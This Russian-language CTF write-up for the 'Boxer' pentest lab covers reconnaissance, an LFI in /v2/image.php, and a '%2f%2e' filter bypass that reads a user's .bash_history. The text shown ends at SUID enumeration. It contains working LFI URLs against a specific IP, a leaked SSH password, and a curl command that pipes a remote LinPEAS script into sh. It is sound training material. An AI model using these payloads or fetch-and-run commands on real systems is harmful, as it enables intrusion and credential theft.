# HackerLab — Pentest Machine: Boxer

<table>
<tr><td><b>Категория</b></td><td>Pentest Machine (Web → LFI → Credential Leak → SSH → SUID Privilege Escalation)</td></tr>
<tr><td><b>Класс уязвимости</b></td><td>Local File Inclusion (LFI) / Path Traversal + Misconfigured SUID binary</td></tr>
<tr><td><b>CWE</b></td><td>CWE-22 (Path Traversal), CWE-250 (Execution with Unnecessary Privileges)</td></tr>
<tr><td><b>Цель</b></td><td><code>62.173.140.174</code> (codeby.games), порты <code>28322/ssh</code>, <code>28380/http</code>; сайт «Oxer»</td></tr>
<tr><td><b>Инструменты</b></td><td>Nmap, WhatWeb, securityheaders.com, Burp Suite Pro, OWASP ZAP, Dirsearch, SSH, LinPEAS</td></tr>
</table>

---

## Оглавление

1. [Краткое summary](#краткое-summary)
2. [Методология и карта MITRE ATT&CK](#методология-и-карта-mitre-attck)
3. [Разведка. Сканирование портов и стека](#1-разведка-сканирование-портов-и-стека)
4. [Автоматизированный аудит (Burp, ZAP, securityheaders)](#2-автоматизированный-аудит-burp-zap-securityheaders)
5. [Поиск скрытых директорий](#3-поиск-скрытых-директорий)
6. [Обнаружение LFI в `/v2/image.php`](#4-обнаружение-lfi-в-v2imagephp)
7. [Burp Intruder. Обход фильтра и чтение `.bash_history`](#5-burp-intruder-обход-фильтра-и-чтение-bash_history)
8. [Получение SSH-доступа](#6-получение-ssh-доступа)
9. [Локальная энумерация](#7-локальная-энумерация)
10. [Privilege Escalation через SUID `capsh`](#8-privilege-escalation-через-suid-capsh)
11. [Разбор уязвимостей](#разбор-уязвимостей)
12. [Рекомендации по устранению](#рекомендации-по-устранению)
13. [Выводы](#выводы)

---

## Краткое summary

Хост `62.173.140.174` (codeby.games, сайт «Boxer») предоставлял две версии одного веб-приложения: статичную (на корневом пути) и «v2» (`/28380/v2/`), в которой изображения отдавались через прокси-скрипт `image.php?image=...`. Этот скрипт оказался уязвим к **Local File Inclusion**, что позволило:

1. Прочитать `/etc/passwd` и установить имя локального пользователя — `Don`.
2. Через Burp Intruder, перебрав варианты path traversal / URL-кодирования, обойти фильтр приложения и прочитать `.bash_history` пользователя `Don`.
3. В истории команд обнаружить **утёкший пароль** (`S3cP@ssW0rd!!!`), оставленный в выполненной ранее (учебной) команде `echo ... > secret.note`.
4. Войти по SSH под `Don` с этим паролем.
5. В ходе локальной энумерации найти нестандартный SUID-бит на бинарнике `/usr/sbin/capsh` и с его помощью мгновенно получить root shell (классический GTFOBins-вектор).
6. Прочитать флаг в `/root/last_part`.

---

## Методология и карта MITRE ATT&CK

| № | Шаг | Тактика (Tactic) | Техника (Technique) |
|---|---|---|---|
| 1 | `nmap -A` по известным портам, определение сервисов и ОС | Reconnaissance (TA0043) | [T1595.002 — Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/) |
| 2 | `whatweb`, securityheaders.com — снятие отпечатка стека и заголовков | Reconnaissance (TA0043) | [T1592.002 — Gather Victim Host Information: Software](https://attack.mitre.org/techniques/T1592/002/) |
| 3 | Автоматизированный краулинг/аудит Burp Suite и OWASP ZAP | Reconnaissance (TA0043) | [T1595.002 — Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/) |
| 4 | `dirsearch` — брутфорс скрытых директорий, находка `/v2/` | Reconnaissance (TA0043) | [T1595.003 — Active Scanning: Wordlist Scanning](https://attack.mitre.org/techniques/T1595/003/) |
| 5 | Анализ исходного HTML `/v2/`, обнаружение параметра `image.php?image=` | Reconnaissance (TA0043) | [T1594 — Search Victim-Owned Websites](https://attack.mitre.org/techniques/T1594/) |
| 6 | Эксплуатация LFI, чтение `/etc/passwd` | Initial Access (TA0001) | [T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |
| 7 | Burp Intruder: перебор encoded/traversal payload'ов для обхода фильтра | Defense Evasion (TA0005) | [T1027 — Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/) |
| 8 | Чтение `.bash_history`, обнаружение пароля | Credential Access (TA0006) | [T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) |
| 9 | SSH-вход с найденными учётными данными | Lateral Movement (TA0008) | [T1021.004 — Remote Services: SSH](https://attack.mitre.org/techniques/T1021/004/) |
| 10 | `find / -perm /4000`, LinPEAS — поиск SUID-бинарников | Discovery (TA0007) | [T1083 — File and Directory Discovery](https://attack.mitre.org/techniques/T1083/) |
| 11 | Эксплуатация SUID `capsh` для получения root | Privilege Escalation (TA0004) | [T1548.001 — Abuse Elevation Control Mechanism: Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/) |
| 12 | Чтение флага в `/root` | Collection (TA0009) | [T1005 — Data from Local System](https://attack.mitre.org/techniques/T1005/) |

---

## 1. Разведка. Сканирование портов и стека

**MITRE ATT&CK:** TA0043 Reconnaissance → T1595.002

Начинаем с `nmap -A` по известным портам цели:

```bash
nmap -A -p 28380,28322 62.173.140.174
```



Открыты два порта: `28322/tcp` (SSH, OpenSSH 8.9p1 Ubuntu) и `28380/tcp` (HTTP, Apache, заголовок страницы `Oxer`).

Снимаем отпечаток веб-стека:

```bash
whatweb http://62.173.140.174:28380
```



Стек: Apache + Bootstrap + jQuery 3.4.1, контактный email `demo@gmail.com` в разметке страницы — типичный шаблонный лендинг.

---

## 2. Автоматизированный аудит (Burp, ZAP, securityheaders)

**MITRE ATT&CK:** TA0043 Reconnaissance → T1595.002

Запускаем пассивный/активный краулинг в Burp Suite Pro:



Burp фиксирует Open Redirection (DOM-based) на `/`, `/index.html`, `/about.html`, `/class.html`, `/blog.html` — второстепенная находка, не являющаяся основным вектором атаки в этом прохождении (а скорее всего false positive).

Проверка заголовков безопасности:



Оценка **D**: отсутствуют `Content-Security-Policy` и `Permissions-Policy`.

Дополнительно гоняем автоматическое сканирование OWASP ZAP по `/v2/`:



ZAP подтверждает те же проблемы с заголовками, плюс уязвимые версии JS-библиотек и междоменные misconfiguration — всё это второстепенные находки, фиксируем для отчёта, но продолжаем искать более серьёзный вектор.

---

## 3. Поиск скрытых директорий

**MITRE ATT&CK:** TA0043 Reconnaissance → T1595.003 Active Scanning: Wordlist Scanning

```bash
dirsearch -u http://62.173.140.174:28380/
```



Продолжаем просматривать вывод — среди находок присутствует директория **`/v2`**:



`/v2/` — это отдельная, судя по всему более новая версия того же сайта, которую стоит исследовать отдельно. Часто в «v2»-версиях проекта остаются функции, ещё не прошедшие ревью безопасности.

---

## 4. Обнаружение LFI в `/v2/image.php`

**MITRE ATT&CK:** TA0043 Reconnaissance → T1594 Search Victim-Owned Websites; TA0001 Initial Access → T1190

Смотрим исходный код страницы `/v2/`:



В отличие от основной версии сайта (там картинки отдаются напрямую, `src="images/logo.png"`), в `/v2/` все изображения проксируются через собственный PHP-скрипт:

```html

```

Параметр `image` — явный кандидат на **Local File Inclusion**. Проверяем:

```
http://62.173.140.174:28380/v2/image.php?image=/etc/passwd
```



Сервер отдал содержимое `/etc/passwd` вместо картинки. В списке пользователей — нестандартная запись:

```
Don:x:1000:1000::/home/Don:/bin/sh
```

Для сравнения — вот как подключаются изображения в основной (не `/v2/`) версии сайта, без прокси-скрипта:



Таким образом уязвимый код появился именно в `/v2/` — вероятно, недоработанном рефакторинге.

---

## 5. Burp Intruder. Обход фильтра и чтение `.bash_history`

**MITRE ATT&CK:** TA0005 Defense Evasion → T1027; TA0006 Credential Access → T1552.001

Поскольку у пользователя `Don` есть домашняя директория, логично попробовать прочитать его файлы конфигурации. Прямой путь `../../etc/shadow` или `/home/Don/.bash_history` может быть отфильтрован приложением (часто LFI-фильтры блокируют буквальные `../` или файлы, начинающиеся с точки), поэтому используем Burp Intruder с позицией на имени файла и большим листом payload'ов, включающим разные кодировки traversal-последовательностей и варианты обхода фильтра:



Из 930 запросов смотрим на аномальные по длине ответа — запрос под номером 51 с payload'ом `/.bash_history` вернул `200 OK`, длина ответа 429 байт (заметно больше «пустых» 30–31-байтовых ответов):



Содержимое `.bash_history`:

```bash
echo "tmp_pass: S3cP@ssW0rd!!!" > /home/Don/secret.note
pwd
exit
cat /home/Don/secret.note
rm /home/Don/secret.note
shutdown
```

Пользователь `Don` ранее сохранял временный пароль в текстовый файл, затем удалил его — но сама команда с паролем в открытом виде осталась в истории shell, которая оказалась читаема через LFI.

Подтверждаем находку вручную в браузере, используя небольшой трюк с обходом фильтра (`%2f%2e` перед именем файла — декодируется в `/.`, что обходит простую проверку на точку в начале имени):

```
http://62.173.140.174:28380/v2/image.php?image=/home/Don/%2f%2ebash_history
```



---

## 6. Получение SSH-доступа

**MITRE ATT&CK:** TA0008 Lateral Movement → T1021.004 Remote Services: SSH

Подключаемся по SSH с найденными кредами:

```bash
ssh Don@62.173.140.174 -p 28322
Password: S3cP@ssW0rd!!!
```



Доступ получен, система — Ubuntu 22.04.2 LTS.

---

## 7. Локальная энумерация

**MITRE ATT&CK:** TA0007 Discovery → T1083 File and Directory Discovery

Подтверждаем контекст пользователя и загружаем LinPEAS для автоматизированной энумерации векторов повышения привилегий:

```bash
id
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



Параллельно — ручная проверка SUID-бинарников, один из самых быстрых способов найти путь к привилегированному доступу:

```bash
find / -type f -perm /4000 2>/dev/null
```

